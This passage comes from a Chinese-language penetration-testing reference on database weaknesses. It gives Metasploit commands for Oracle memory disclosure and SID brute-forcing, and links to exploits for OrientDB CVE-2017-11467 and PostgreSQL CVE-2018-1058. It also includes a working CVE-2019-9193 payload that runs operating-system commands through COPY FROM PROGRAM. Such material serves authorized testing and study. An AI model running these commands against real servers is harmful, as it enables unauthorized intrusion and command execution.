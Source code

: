 - MSF 模块
    ```bash
    use auxiliary/admin/oracle/tnscmd       # 该漏洞可以远程获取到 oracle 的内存信息,若是能获取到内存中的数据即为存在漏洞.
    set rhosts [ip]
    run

    use auxiliary/admin/oracle/sid_brute    # 爆破 oracle 的 SID
    set rhosts [ip]
    run
    ```

---

## OrientDB

`OrientDB 是英国 Orient 公司一套开源的 NoSQL 数据库管理系统。该系统支持 ACID 事务、快速索引和 SQL 查询等功能。`

**CVE-2017-11467**
- 简介

    OrientDB 2.22 及之前的版本中存在安全漏洞，该漏洞源于程序没有强制执行权限请求。远程攻击者可通过发送特制的请求利用该漏洞执行任意的操作系统命令。

- 文章
    - [OrientDB远程代码执行漏洞POC分析以及复现|CVE-2017-11467](https://bbs.ichunqiu.com/thread-33175-1-18.html)

- POC | Payload | exp
    - [OrientDB - Code Execution](https://www.exploit-db.com/exploits/44068)

---

## PostgreSQL

**工具**
- [v5est0r/fuck_postgres](https://github.com/v5est0r/fuck_postgres)

**CVE-2018-1058 PostgreSQL 提权漏洞**
- 简述

    PostgreSQL 其 9.3 到 10 版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

- POC | Payload | exp
    - [PostgreSQL 提权漏洞（CVE-2018-1058）](https://vulhub.org/#/environments/postgres/CVE-2018-1058/)

**CVE-2019-9193 PostgreSQL 高权限命令执行漏洞**
- 简述

    PostgreSQL 其 9.3 到 11 版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

- 文章
    - [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)

- POC | Payload | exp
    ```
    DROP TABLE IF EXISTS cmd_exec;
    CREATE TABLE cmd_exec(cmd_output text);
    COPY cmd_exec FROM PROGRAM 'id';
    SELECT * FROM cmd_exec;
    ```

---